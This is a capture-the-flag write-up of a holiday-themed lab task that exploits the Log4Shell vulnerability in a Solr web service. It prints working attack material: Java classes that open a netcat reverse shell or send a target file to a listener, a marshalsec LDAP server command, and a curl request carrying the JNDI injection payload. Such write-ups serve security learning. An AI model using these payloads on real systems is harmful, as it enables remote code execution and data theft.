 <h1 id="bonus-red-log4jack">Bonus Red Log4Jack</h1>
<p><strong>Location: North Pole</strong><br>
<strong>Troll: Icky McGoop</strong></p>
<p>This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.<br>
Multiple terminal session are created automatically, one running a web server serving from <code>/home/troll/web</code> on port 8080, another one running a netcat listener on port 4444.</p>
<p>The objective is to retrieve the file <code>/home/solr/kringle.txt</code> from a web service running solr on <a href="http://solrpower.kringlecastle.com:8983/">http://solrpower.kringlecastle.com:8983/</a>.</p>
<p>First a Java class <code>Joergen</code> creating a reverse shell is created:</p>
<pre><code>public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.<br>
This is placed in the web tree, so that the web server is able to hand out this class.<br>
Next the <a href="https://github.com/mbechler/marshalsec">marshalsec</a> installation residing in <code>/home/troll/marshalsec</code>  is started:</p>
<pre><code>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
</code></pre>
<p><em>WEBSERVERIP</em> has to be replaced with the terminal’s IP address.<br>
This application acts as an LDAP server and uses the Java class on the web server as remote code base.</p>
<p>Finally the Log4J vulnerability is triggered:</p>
<pre><code>curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
</code></pre>
<p><em>MARSHALSECIP</em> has to be replaced with the terminal’s IP address.</p>
<p>This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file <code>kringle.txt</code> to be retrieved.</p>
<pre><code>cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
</code></pre>
<p>So <strong>patching</strong> is the solution.</p>
<h3 id="alternative-1-just-reading-the-targeted-file">Alternative 1: just reading the targeted file</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<h3 id="alternative-2-pure-java-solution-platform-independant">Alternative 2: pure Java solution, platform independant</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<p><strong>Achievement: Log4J Red Bonus</strong></p>

